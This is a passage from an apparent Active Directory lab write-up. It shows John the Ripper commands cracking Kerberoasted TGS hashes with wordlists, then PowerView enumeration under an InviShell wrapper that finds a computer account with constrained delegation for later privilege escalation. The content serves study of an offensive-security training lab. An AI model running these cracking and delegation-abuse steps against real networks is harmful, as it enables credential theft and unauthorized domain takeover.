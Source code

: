 `john --format=krb5tgs --wordlist=/usr/share/wordlists/rockyou.txt ./krb5tgs_hashes.txt`:
```
```
❌

`john --format=krb5tgs --wordlist=/usr/share/seclists/Passwords/xato-net-10-million-passwords.txt ./krb5tgs_hashes.txt`:
```
```
❌

---

### Domain Privilege Escalation | Constrained Delegation (with PowerView, Rubeus, SafetyKatz)

4) **Constrained Delegation Abuse for Domain Privilege Escalation** (successful ✅)

Description: Performed Active Directory enumeration to identify users or machines with **Constrained Delegation** enabled. The attempt to find a user account with delegation rights was unsuccessful. However, enumeration of **computer accounts** revealed that `STUDVM$` has Constrained Delegation enabled and is allowed to delegate authentication to the **CIFS service on `mgmtsrv.tech.finance.corp`**. This finding is leveraged to impersonate a privileged user and escalate privileges.

- **Find a Delegator User where Constrained Delegation is Enabled**

![studvm | studentuser $>](https://custom-icon-badges.demolab.com/badge/studvm-studentuser%20[%24>]-64b5f6?logo=windows11&logoColor=white)

`C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat`:
```
[SNIP]
```

`Import-Module C:\AD\Tools\PowerView.ps1`

`Get-DomainUser -TrustedToAuth`:
```
```
❌

- **Find a Delegator Server where Constrained Delegation is Enabled**

![studvm | studentuser $>](https://custom-icon-badges.demolab.com/badge/studvm-studentuser%20[%24>]-64b5f6?logo=windows11&logoColor=white)

`C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat`:
```
[SNIP]
```

`Import-Module C:\AD\Tools\PowerView.ps1`

`Get-DomainComputer -TrustedToAuth`:
```
[SNIP]

pwdlastset                    : 3/11/2025 7:10:31 AM
logoncount                    : 53
badpasswordtime               : 2/4/2022 2:55:13 AM
distinguishedname             : CN=STUDVM,CN=Computers,DC=tech,DC=finance,DC=corp
objectclass                   : {top, person, organizationalPerson, user...}
lastlogontimestamp            : 3/11/2025 6:57:17 AM
whencreated                   : 2/2/2022 7:13:14 AM
samaccountname                : STUDVM$🖥️
localpolicyflags              : 0
codepage                      : 0
samaccounttype                : MACHINE_ACCOUNT📌
whenchanged                   : 3/11/2025 2:10:31 PM
accountexpires                : NEVER
countrycode                   : 0
operatingsystem               : Windows Server 2019 Standard
```